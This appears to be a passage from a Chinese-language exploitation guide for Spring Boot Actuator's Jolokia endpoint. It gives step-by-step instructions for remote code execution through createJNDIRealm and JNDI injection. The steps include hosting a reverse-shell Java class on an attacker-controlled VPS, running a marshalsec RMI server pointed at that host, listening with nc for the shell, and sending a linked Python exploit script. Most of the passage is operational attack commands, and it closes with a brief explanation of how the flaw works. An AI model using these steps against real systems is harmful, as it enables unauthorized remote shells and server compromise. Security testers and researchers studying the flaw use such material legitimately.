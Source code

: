 #### 利用方法

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。

##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`。

##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。

##### 步骤四：架设恶意 rmi 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 rmi 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389
```

##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvp 443
```

##### 步骤六：发送恶意 payload

根据实际情况修改 [springboot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行。

#### 漏洞原理

1. 利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2. 设置 connectionURL 地址为 RMI Service URL
3. 设置 contextFactory 为 RegistryContextFactory
4. 停止 Realm
5. 启动 Realm 以触发指定 RMI 地址的  JNDI 注入，造成 RCE 漏洞

#### 漏洞分析

​ [Yet Another Way to Exploit Spring Boot Actuators via Jolokia](https://static.anquanke.com/download/b/security-geek-2019-q1/article-10.html)
